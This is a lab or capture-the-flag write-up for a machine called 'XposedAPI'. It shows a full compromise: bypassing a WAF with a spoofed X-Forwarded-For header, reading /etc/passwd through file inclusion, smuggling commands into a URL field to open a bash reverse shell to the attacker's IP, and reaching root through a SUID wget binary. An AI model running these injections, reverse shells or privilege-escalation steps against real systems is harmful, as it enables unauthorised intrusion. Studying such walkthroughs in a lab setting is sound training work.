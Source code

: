 # XposedAPI

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.134
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 22:46 +08
Nmap scan report for 192.168.183.134
Host is up (0.18s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
13337/tcp open  unknown
```

This box likely has some API exploitation, so we can start proxying traffic through Burp.&#x20;

### API --> RCE

Port 13337 shows some basic documentation for an API:

<figure><img src="../../../.gitbook/assets/image (3625).png" alt=""><figcaption></figcaption></figure>

The most interesting was the `/update` endpoint, which accepted a user-controlled URL and says it updates the application via a 'Linux Executable'. This might be vulnerable to RCE if we can chain commands to the end of the URL.&#x20;

But we didn't have a username yet. There's also a `/logs` endpoint:

<figure><img src="../../../.gitbook/assets/image (2572).png" alt=""><figcaption></figcaption></figure>

Attempting to visit it results in a WAF blocking us:

```
$ curl http://192.168.183.134:13337/logs
WAF: Access Denied for this Host.
```

Since the application mentioned that this is meant to be open to `localhost` only, we can try appending the `X-Forwarded-For` header.&#x20;

```
$ curl http://192.168.183.134:13337/logs -H 'X-Forwarded-For: localhost'
Error! No file specified. Use file=/path/to/log/file to access log files.
```

This looks vulnerable to LFI, and it works!

{% code overflow="wrap" %}
```
$ curl http://192.168.183.134:13337/logs?file=/etc/passwd -H 'X-Forwarded-For: localhost
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh
```
{% endcode %}

There's a `clumsyadmin` user present, and this might be the user we need. Then, we can use the `/update` endpoint to send requests to our HTTP server:

<figure><img src="../../../.gitbook/assets/image (203).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

Since our parameters was being passed to a 'Linux Executable', I assumed that the URL parameter was not being properly sanitised (and is probably using `wget` or something).&#x20;

To test, I sent this JSON data:

```json
{"user":"clumsyadmin","url":"http://192.168.45.184/hiiamssrf; wget 192.168.45.184/hiiamrce"}
```

<figure><img src="../../../.gitbook/assets/image (525).png" alt=""><figcaption></figcaption></figure>

This confirms we have RCE. We can get a reverse shell via this JSON object:

```json
{"user":"clumsyadmin","url":"http://192.168.45.184/hiiamssrf; bash -c 'bash -i >& /dev/tcp/192.168.45.184/21 0>&1'"}
```

<figure><img src="../../../.gitbook/assets/image (714).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Wget SUID Binary

I searched for SUID binaries on the machine, and found that `wget` was one of them:

```
clumsyadmin@xposedapi:~$ find / -perm -u=s -type f 2>/dev/null
<TRUNCATED>
/usr/bin/wget
<TRUNCATED>
```

Using this, we can get a `root` shell:

```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
wget --use-askpass=$TF 0
```

<figure><img src="../../../.gitbook/assets/image (3423).png" alt=""><figcaption></figcaption></figure>
